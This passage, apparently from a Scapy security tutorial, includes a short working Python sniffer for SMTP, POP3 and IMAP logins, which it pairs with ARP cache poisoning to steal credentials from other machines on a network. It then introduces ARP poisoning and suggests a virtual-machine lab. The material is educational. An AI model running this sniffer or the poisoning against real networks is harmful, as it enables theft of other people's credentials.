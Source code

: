 ```python
>>>> load_module('p0f')
>>>> sniff(prn=prnp0f)
```




-----------
## <a name="email"></a> Stealing Email Data

The idea of this script is to build a sniffer to capture [SMTP](http://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol), [POP3](http://en.wikipedia.org/wiki/Post_Office_Protocol), and [IMAP](http://en.wikipedia.org/wiki/Internet_Message_Access_Protocol) credentials. Once we couple this sniffer with some [MITM](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) attack (such as **ARP poisoning**), we can steal credentials from other machines in the network.

With this in mind, we write a script that runs a sniffer on all the interfaces, with no filtering. The **sniff**'s **store=0** attribute ensures that the packets are not kept in memory (so we can leave it running):

```python
from scapy.all import *
def packet_callback(packet):
    if packet[TCP].payload:
        mail_packet = str(packet[TCP].payload)
        if 'user' in mail_packet.lower() or 'pass' in mail_packet.lower():
            print '[*] Server: ' + packet[IP].dst
            print '[*] ' + packet[TCP].payload

sniff(filter="tcp port 110 or tcp port 25 or tcp port 143", prn=packet_callback, store=0)
```

Running this script when loading  some mail client (such as [Thunderbird](https://www.mozilla.org/en-US/thunderbird/)) will allow us to see the login information (useful if they are sent to the server as plain text).



-----------
## <a name="arp"></a> ARP Cache Poisoning

I talked about [ARP cache poisoning using command line arpspoof](http://bt3gl.github.io/wiresharking-for-fun-or-profit.html) in my guide about Wireshark. Here we are going to see how to implement similar tool using Scapy.

ARP cache poisoning works by convincing a target machine that we are the gateway, and then convincing the gateway that all traffic should pass through our machine.

Every machine in a network maintains an ARP cache that stores the recent MAC addresses that match to IP addresses on the local network. All we need to do is to poison this cache with controlled entries.

The best way to test this is using a Windows virtual machine (take a look at [this guide I wrote](http://bt3gl.github.io/setting-up-a-playing-environment-with-virtual-machines.html)).
